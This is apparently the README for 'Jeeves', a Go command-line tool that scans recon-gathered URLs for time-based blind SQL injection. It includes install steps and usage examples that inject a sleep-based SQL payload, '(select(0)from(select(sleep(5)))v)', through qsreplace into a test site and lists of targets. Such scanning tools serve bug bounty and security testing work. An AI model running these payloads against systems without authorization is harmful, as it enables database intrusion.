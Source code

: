 <h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>


## - Installation & Requirements:
```
> go install github.com/ferreiraklet/jeeves@latest

OR

> git clone https://github.com/ferreiraklet/jeeves.git

> cd jeeves

> go build jeeves.go

> chmod +x jeeves

> ./jeeves -h
```
<br>


## - Usage & Explanation:
  * In Your recon process, you may find endpoints that can be vulnerable to sql injection,
  
    * Ex: https://redacted.com/index.php?msg=SameValue

    <br>
  
    Jeeves reads from stdin:
  
    `echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves --payload-time time_payload`
    <br>
  
    In --payload-time you must use the time mentioned in payload.
 
    <br>
    
    **You can use a file containing a list of targets as well**:
  
    `cat targets | jeeves --payload-time 5`
  
    <br>
    
 * **You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght**
    <br>
    * Another examples of usage:
  
    `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5`
    <br>
    `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves --payload-time 10`

<br>


## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.
